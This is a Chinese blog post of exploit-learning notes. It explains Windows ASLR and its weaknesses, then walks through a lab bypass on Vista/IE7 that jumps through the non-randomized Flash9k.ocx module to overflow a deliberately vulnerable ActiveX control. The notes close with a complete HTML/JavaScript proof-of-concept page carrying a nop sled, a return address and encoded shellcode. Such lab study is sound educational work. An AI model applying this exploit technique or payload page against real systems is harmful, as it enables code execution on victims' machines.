

本文来源：[Moeomu的博客](/zh-cn/posts/漏洞利用学习笔记-017-aslr简介/)

## ASLR技术简介

> 纵观前面介绍的所有漏洞利用方法都有着一个共同的特征：都需要确定一个明确的跳转地址。无论是JMP ESP等通用跳板指令还是Ret2Libc使用的各指令，我们都要先确定这条指令的入口点。所谓惹不起躲得起，微软的ASLR(Address Space Layout Randomization)技术就是通过加载程序的时候不再使用固定的基址加载，从而干扰shellcode定位的一种保护机制
>
> 实际上ASLR的概念在Windows XP时代就已经提出来了，只不过XP上面的ASLR功能很有限，只是对PEB和TEB进行了简单的随机化处理，而对于模块的加载基址没有进行随机化处理，直到Windows Vista出现后，ASLR才真正开始发挥作用
>
> 与SafeSEH类似ASLR的实现也需要程序自身的支持和操作系统的双重支持，其中程序的支持不是必需的

- 支持ASLR的程序在它的PE头中会设置`IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE`标识来说明其支持ASLR。微软从Visual Studio 2005 SP1开始加入了`/dynamicbase`链接选项来帮我们完成这个任务，我们只需要在编译程序的时候启用`/dynmicbase`链接选项，编译好的程序就支持ASLR了

### 映像随机化

- 映像随机化是在PE文件映射到内存时，对其加载的虚拟地址进行随机化处理，这个地址是在系统启动时确定的，系统重启后这个地址会变化
- 可能是出于兼容性的考虑，微软在系统中设置了映像随机化的开关，用户可以通过设置注册表中`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionM anager\MemoryManagement\MoveImages`的键值来设定映像随机化的工作模式
  - 设置为`0`时映像随机化将禁用
  - 设置为`−1`时强制对可随机化的映像进行处理，无论是否设置`IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE`标识
  - 设置为其他值时为正常工作模式，只对具有随机化处理标识的映像进行处理
  - 如果注册表中不存在`MoveImages`，大家可以手工建立名称为`MoveImages`，类型为`DWORD`的值，并根据需要设置它的值

### 堆栈随机化

- 这项措施是在程序运行时随机的选择堆栈的基址，与映像基址随机化不同的是堆栈的基址不是在系统启动的时候确定的，而是在打开程序的时候确定的，也就是说同一个程序任意两次运行时的堆栈基址都是不同的，进而各变量在内存中的位置也就是不确定的
- 将以下程序在VS2008中编译，在XP和Vista上分别运行两次，得到如下图的结果

```cpp
int main()
{
  char* heap = (char *)malloc(100);
  char stack[100];
  printf("Address of heap:%#0.4x\nAddress of stack:%#0.4x", heap, stack);
  getchar();

  return 0;
}
```


- 可以看出，Vista上堆地址相去甚远，而XP上完全相同

### PEB和TEB的随机化

- 获取当前进程的TEB和PEB很简单，TEB存放在`FS:0`和`FS:[0x18]`处，PEB存放在TEB偏移`0x30`的位置，可以通过如下代码来获取当前进程的TEB和PEB

```cpp
int main()
{
    unsigned int teb;
    unsigned int peb;

    __asm
    {
        mov eax, FS:[0x18]
        mov teb, eax
        mov eax, dword ptr[eax+0x30]
        mov peb, eax
    }
    printf("PEB:%#x\nTEB:%#x", peb, teb);
    getchar();

    return 0;
}
```

- 在Vista上测试运行，结果如图



- 可以看出，效果非常差劲，PEB地址只随机化了一个字节，而且还是非常有规律，TEB基本没变过

### ASLR的缺陷

- 不难看出，ASLR随机化映像的时候，虽然模块的加载基址改变了，但是各个模块的入口点的低位两个字节是不会改变的，举例：原基址：`0x00401234`，随机化后基址变为：`0x67291234`，因此可以以此攻击它

## 攻击未启用ASLR的模块

### 准备工作

> 实验环境：Windows Vista SP0，IE7，Adobe Flash Player 9.0.124

- 虽然书上要求使用9.0.262版本，但是实在是找不到，就以9.0.124来替代了，[点此下载](https://pan.moeomu.com/Tutorial/0Day安全-资料/flashplayer9r124_winax.exe)
- 存在漏洞的OCX控件在之前的实验中已经编译了一个了，因此就使用那个了，[点此下载](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX_SEH.ocx)，此控件ctrl class object id：`ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### 步骤

- 重启系统查看ASLR模块启用情况


- 实验控件未启用GS
- 通过IE7加载POC页面和Flash9k.ocx
- 函数test存在栈溢出漏洞，目标是覆盖函数的 返回地址
- 因为Flash9k.ocx未启用ASLR因此加载基址固定，可以在里面搜寻合适的跳板指令跳转到shellcode
- IE7的DEP是关闭的，因此不考虑DEP的影响
- 因为通过覆盖函数返回地址实现攻击，因此最佳的跳板指令是JMP ESP
- `0x301D606B`也是`JMP ESP`，执行后将会跳转到字符串的头部，但是问题是`6B 60 1D 30`四个字节正好构成一句汇编指令`imul esp,dword ptr ds:[eax+0x1D],0x30`，它将会把后两个操作数相乘，随后放到第一个操作数中，因此需要保持`[eax+0x1D]`的值是正确的，而目前eax并未指向有效地址，因此需要修复eax
- 很可惜，没有找到合适的修复eax的指令，换地址
- `0x303911D3`也是`JMP ESP`，但它组成的汇编代码将会同时读取EC和EAX的内容，因此这两个寄存器都需要修复，不可行，换指令
- `JMP ESP`没有，改用`JMP ESI`，地址`0x3000DCD2`中包含0，直接排除，地址`0x302420C3`最后一个字节是retn，无法使用，排除，地址`0x3028EE6E`汇编代码将直接引起异常，排除，此指令也没有合适的了，因此寻找其它合适指令
- 位于地址`0x300942F2`的`CALL ESP`貌似正合适，它也会将esp增加8个字节正好避开了垃圾数据
- 以下是改变以后的shellcode

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
<param name="movie" value="1.swf" />
<param name="quality" value="high" />
<embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260">
</embed>
</object>

<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	var s = "\u9090";

	while (s.length < 54)
	{
		s += "\u9090";
	}

	s += "\u42F2\u3009";
	s += "\u9090\u9090";
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";

	test.test(s);
</script>

</body>
</html>
```

- 如图，重启系统，shellcode运行正常，这意味着攻击ASLR成功


